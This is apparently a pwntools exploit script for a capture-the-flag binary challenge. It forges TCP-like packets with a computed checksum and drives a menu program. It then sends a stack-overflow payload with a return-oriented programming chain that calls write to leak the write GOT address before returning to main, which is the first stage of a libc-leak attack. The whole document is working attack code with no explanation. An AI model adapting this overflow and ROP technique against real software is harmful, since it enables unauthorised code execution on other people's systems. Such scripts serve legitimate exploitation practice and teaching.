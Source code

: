 ```python

def check(buf1):
    checksum = 0

    buf = ''+buf1
    head = "fakeipheadfa"
    for i in range(len(head)/2):
        checksum = checksum ^ int(head[:2][::-1].encode("hex"),16)
        head = head[2:]
    while True:
        checksum = checksum ^ bytes_to_long(buf[:2][::-1])
        buf = buf[2:]
        if buf == '':
            break
    return checksum

def packtcp(seq,buf,padding = 'a'):
    payload = p16(30318)+p16(10423)# +0/+2
    payload += p32(seq)# +4
    payload += p32(1)# +8
    payload += p16(0x18/4)# +12
    payload += p16(1)# +14
    payload += p16(0)# +18
    payload += p16(0)
    payload += p16(1)# +20
    payload += p16(0xffff)# +22
    payload += buf
    payload = payload.ljust(0x1000,padding)

    checksum = check(payload)
    payload = payload[:16]+p16(checksum)+payload[18:]# +0x10
    return payload

def menu(choice):
    sla("4. Quit.", choice)

def read_tcp(payload):
    menu(1)
    sleep(0.1)
    p.send(payload)

def delete(idx):
    menu(2)
    sleep(0.1)
    sla("Which?",idx)

def submit():
    menu(3)


pop_rdi = 0x0000000000401bb3
pop_rsi = 0x0000000000401bb1

read_tcp(packtcp(0x0001, "aaaa"))
read_tcp(packtcp(0x1001, "aaaa"))
read_tcp(packtcp(0x2001, "aaaa"))

payload = 'b'*0x68+'a'*8
payload += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(elf.got['write'])+p64(0)+p64(elf.plt['write'])
payload += p64(0x401a5e)# main
read_tcp(packtcp(0x3001, payload,'\x00'))
submit()

```
